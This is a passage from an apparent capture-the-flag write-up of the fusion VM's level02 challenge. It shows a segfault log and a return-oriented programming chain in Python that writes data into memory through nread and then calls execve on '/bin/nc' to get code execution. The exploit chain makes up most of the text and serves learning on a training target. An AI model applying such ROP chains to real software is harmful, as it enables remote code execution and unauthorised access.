~~~
$ dmesg | tail -n 1
... level02[23974]: segfault at deadbeef ip deadbeef sp bfc5fde0 error 15
~~~

That was reasonable enough, but I'm now rapidly approaching unknown
territory (return oriented programming.) Well, thankfully the fusion-VM
comes preinstalled with ROPgadget, which undoubtedly will help me
in finding the rop-gadgets I'm looking for.

But what *am* I looking for exactly?

Word on the street is that one way to achieve code-execution, is to
create a fake stack-frame, which can be used when calling a function.

### Timetravel into execve

I return with good news. After experimenting with some ways of writing
into memory, and experimenting with different chains; I was able to
execute netcat.

I started out by returning into nread, which reads from my connection
& stores n-amount of recieved bytes in a piece of writable memory.

{% highlight python %}
chain=[
    0x804952d, # &nread
    0x8048815, # add esp, 8; pop ebx; ret
    1,         # nread(1,
    0x804b464, #       &buffer,
    20,        #       size)
{% endhighlight %}

I added the `0x8048815`-gadget to advance the stack-pointer past the
arguments provided to nread.

Upon returning from the gadget, I (again) returned into nread to store some
addresses at `0x804b42c`, I will use this as `argv` parameter when calling
execve.

And again, I added the `0x8048815`-gadget to advance the stack-pointer :)

{% highlight python %}
    # continuing the chain
    0x804952d, # &nread
    0x8048815, # add esp, 8; pop ebx; ret
    1,         # nread(1,
    0x804b42c, #       &buffer,
    8,         #       size)
    0x80489b0, # &(execve@plt)
    JUNK,
    0x804b470, # &"/bin/nc"
    0x804b42c, # &argv
    0
]
{% endhighlight %}
